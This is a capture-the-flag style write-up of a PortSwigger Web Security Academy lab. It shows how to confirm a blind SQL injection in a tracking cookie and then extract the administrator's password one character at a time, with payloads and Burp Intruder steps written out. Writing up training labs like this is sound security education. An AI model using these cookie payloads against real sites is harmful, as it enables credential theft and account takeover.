



# Write-up: Blind SQL injection with conditional responses



This write-up for the lab *Blind SQL injection with conditional responses* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description



## Query

The query used in the lab will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In the example case, the cookie contains this content
`Cookie: TrackingId=qnLH78fKAPMJdjw7; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can not see any result of the query. However, if we can craft requests that allow for dedicated `good` and `bad` answers, we can ask the database anything it can answer with `TRUE` or `FALSE`.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `good` or `bad` answers.

#### The good case

For the `good` query, we take an input that always evaluates to `TRUE`, like `1=1`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=1--'
```

The content of the cookie is

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=1--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Results in "Welcome back"

#### The bad case

For the `good` query, we take an input that always evaluates to `FALSE`, like `1=2`.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and 1=2--'
```

The content of the cookie is

`Cookie: TrackingId=qnLH78fKAPMJdjw7' and 1=2--; session=lcaWJjxc1ubzKT0CsGu2nDEfePtHIni5`

--> Does not result in "Welcome back"

As we found a vulnerable parameter, I omit the session value from now on.

### Confirm expected table

First I confirm that the `users` table exists. For this, I select a string literal from the table and compare the result to the literal.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from users LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from users LIMIT 1)='x'--`

--> Results in "Welcome back"

#### Verify negative result

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and  (select 'x' from usersX LIMIT 1)='x'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select 'x' from usersX LIMIT 1)='x'--`

--> NO "Welcome back"

### Verify columns exist as expected

Now onto the same verification regarding the column names

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator')='administrator'--`

--> Results in "Welcome back". Negative case with a different column name verified.

### Get the length of the password (could be hash as well)

Find out the length of the password. For this, we use the `LENGTH` function of the database and compare it with numbers.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select username from users where username='administrator' and LENGTH(password)=1)='administrator'--`

--> NO "Welcome back", the password is not of length 1

As an alternative, I can check with '>' instead of '='. It results in the "Welcome back" message meaning the password is longer than 1 character.

I Brute force the length with Burp Intruder (Sniper, Payload is '1' argument in query)


--> Password is exactly 20 characters long

### Enumerate password of the administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

```sql
SELECT trackingId FROM someTable WHERE trackingId = 'qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--
```

Cookie content: `TrackingId=qnLH78fKAPMJdjw7' and (select substring(password,1,1) from users where username='administrator')='a'--`

We find out that the first character is not an `a`, but using Burp Suite Intruder this can be automated easily. With the free version, this is rather slow, but scripting it in python is not difficult either.


The first character is 'k'

#### Automate this

Now automate this for all characters, again using either Burp Intruder or a python script.

Attack type: *Cluster bomb*


- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force (see above) - for real-life, add special characters

This results in these responses with the 'Welcome Back' message:


Reordering it numerically according to Payload 1 will result in the password: kdd113dnq7t34h70nhj7

## Try login

With the credentials obtained I log in and the lab updates to


